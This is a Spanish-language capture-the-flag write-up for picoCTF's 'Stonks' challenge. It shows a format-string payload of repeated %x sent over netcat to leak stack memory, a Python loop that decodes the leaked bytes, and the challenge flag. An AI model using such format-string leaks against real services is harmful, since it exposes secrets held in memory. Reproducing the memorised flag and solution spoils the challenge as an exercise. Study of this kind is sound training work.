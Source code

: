 # Stonks
## Descripcion
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/17ba7f9351aca192c45833c658742fe5/vuln.c) `nc mercury.picoctf.net 27912`
## Pistas
- Okay, maybe I'd believe you if you find my API key.
## Solucion
``
```
┌──(kali㉿kali)-[~]
└─$ nc mercury.picoctf.net 27912
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
86783f0804b00080489c3f7ec5d80ffffffff18676160f7ed3110f7ec5dc708677180186783d086783f06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3266633130613130ff83007df7f00af8f7ed34403e6db90010f7d62ce9f7ed40c0f7ec55c0f7ec5000ff834018f7d5368df7ec55c0
Portfolio as of Sat May 13 02:56:13 UTC 2023


1 shares of BAP
19 shares of C
31 shares of GOZ
17 shares of TOYT
22 shares of G
296 shares of K
104 shares of RGN
871 shares of LFK
Goodbye!
                                                                           
┌──(kali㉿kali)-[~]
└─$ python            
Python 3.10.9 (main, Dec  7 2022, 13:47:07) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> s='ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿ}' //Esta se obtiene ingresando la respuesta en un conversor hexadecimal a Ascii
>>> for x in range(0,len(s),4):
...     print(s[x+3]+s[x+2]+s[x+1]+s[x],end='')
... 
Traceback (most recent call last):
  File "<stdin>", line 2, in <module>
IndexError: string index out of range
picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0>>>



```


## Bandera
picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}

## Notas adicionales

## Referencias
- [HEX to ASCII](https://www.rapidtables.com/convert/number/hex-to-ascii.html)